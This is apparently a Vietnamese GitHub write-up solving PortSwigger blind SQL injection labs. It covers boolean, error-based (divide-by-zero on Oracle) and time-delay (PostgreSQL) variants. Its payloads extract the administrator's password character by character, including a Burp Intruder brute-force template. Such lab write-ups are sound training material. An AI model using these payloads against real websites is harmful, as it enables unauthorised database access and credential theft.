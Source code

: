 # Blind_SQL_injection

- `Blind SQL injection` là một phần của SQL injection, tuy nhiên các phản hồi HTTP của nó không chứa kết quả của truy vấn SQL hoặc không hiển thị bất cứ lỗi nào của cơ sở dữ liệu.

## Khai thác Blind SQL injection bằng phương pháp kích hoạt các phản hồi có điều kiện

- Thông thường đối với một trang web sẽ sử dụng `Cookie` để quản lý người dùng. Nếu một Cookie của một người sử dụng cũ sẽ được trang web trả về kết quả `Welcome back`.
- Ta có thể dựa vào điều này để tấn công `Blind SQL`.
- Đầu tiên Mình thử kiểm tra xem trang web có trả về kết quả nếu truy vấn sai hay không.

```sql
' AND 1=1 -- 
' AND 1=2 --
```

- Với truy vấn đầu tiên ta thấy nó đã trả về kết quả `Welcome back` suy ra ta có thể khai thác được. Query có dạng:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

- Mình sẽ sử dụng hàm `SUBSTRING` để kiểm tra từng kí tự ở từng vị trí xem nó có đúng không, nếu kí tự đó thỏa mãn thì nó sẽ trả về kết quả là `Welcome back`.

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

- Ở đây sau khi tìm được độ dài của flag bằng 20 mình đã brute force các request tạo ra length đúng của từng vị trí password rồi ghép lại.

![](pic1.png)

- Mình sẽ sử dụng 2 paypoad ứng với 2 vị trí, kiểu brute force là Cluster Bomb.

![](pic2.png)

## SQL injection Error-Based

Cũng giống như cách tấn công phản hồi có điều kiện, tuy nhiên ở đây trang web có thể không trả về những thông tin dạng boolean hoặc check cookie để ta nhận biết truy vấn có đúng hay không. Vậy nên ta cần dựa vào lỗi được trả về của trang web như status code 500 để biết truy vấn có thể tấn công hay chưa.

- Mình sẽ sử dụng 1 ví dụ về lỗi `divided-by-zero` error như sau:

```sql
Cookie: <random-string>;

xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

- Với trường hợp thứ nhất điều kiện sai cho nên không có lỗi xảy ra, tuy nhiên trường hợp 2 có lỗi `divided-by-zero` do điều kiện đúng chạy vào nhánh THEN. Từ lỗi này ta có thể dựa vào đó để khai thác thêm.

Mình sẽ nói rõ hơn với LAB của port-swigger:

- Đầu tiên mình nhận thấy có thể inject SQL vào phần TrackingId. Mình đã thử kiểm tra 1 phép boolean ở đây:

```sql
TrackingId=xyz'
TrackingId=xyz''
```

Nhận thấy có lỗi Syntax Error mình có thể sử dụng được

- Giờ cần tìm được phiên bản SQL nào được sử dụng trong server để có thể có query chính xác nhất. Mình sẽ check `Oracle` và `PostgreSQL` trước vì nó có cách nối chuỗi khác.

![](pic3.png)

- Mình kiểm tra phiên bản của Oracle và truy vấn đến tables `dual` riêng của nó và đã có kết quả: 

![](pic4.png)

- Tiếp theo mình sẽ sử dụng truy vấn để kiểm tra số kí tự có trong password, vẫn sẽ là sử dụng lỗi `divided-by-zero`:

![](pic5.png)

- Mình đã xác định được password có 20 kí tự. giờ chỉ cần brute force với `intruder` của burp suite với 2 vị trí như sau:

```
Cookie: TrackingId=pW1xD1ckAEXfa9Mi'||(SELECT CASE WHEN (SUBSTR(password,§§,1)='§§') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

- Cuối cùng mình sẽ lấy tất cả các payload có status code = 500 để lấy mật khẩu của admin và login được:

![](pic6.png)

## Triggering time delays

Khi những request của mình được gửi lên cùng server mà không có phản hổi như lỗi hay kết quả của cột được trả về. Thời gian trả về đồng thời thì mình có thể tính đến trường hợp sử dụng time delay để tấn công.

LAB 1:
- Ở đây chỉ đơn giản là mình cần inject 1 đoạn query làm sao có thể có cả time delay 10s. Vì ở trong cheatsheet có rất nhiều loại time delay ứng với nhiều phiên bản nên mình cần check version.
- Mình check được server sử dụng DB Postgre và đã inject được:
```sql
TrackingID:xyz'||pg.sleep(10)--
```

LAB 2:
Ở lab 2 này có khác so với 1 là mình cần phải lấy được cả mật khẩu của admin để tiến hành login.

- Bước đầu tiên vẫn như thông thường để sử dụng `SUBSTRING` mình cần xác định phiên bản SQL đang được sử dụng:
```sql
TrackingId=VSwgfJjUJbeE5fKe'||(pg_sleep(10))--
```

- Sau khi tìm được phiên bản SQL đang sử dụng là Postgre mình xác định được cú pháp truy vấn của `SUBSTRING`. TRước khi sử dụng `SUBSTRING` mình sẽ xác định số kí tự của mật khẩu.

![](pic7.png)

- Giờ mình sẽ sử dụng `Intruder` để kiểm tra và lấy được mật khẩu của `admin`:

![](pic8.png)

![](pic9.png)

- Lấy mật khẩu theo tăng dần payload 1 là done.


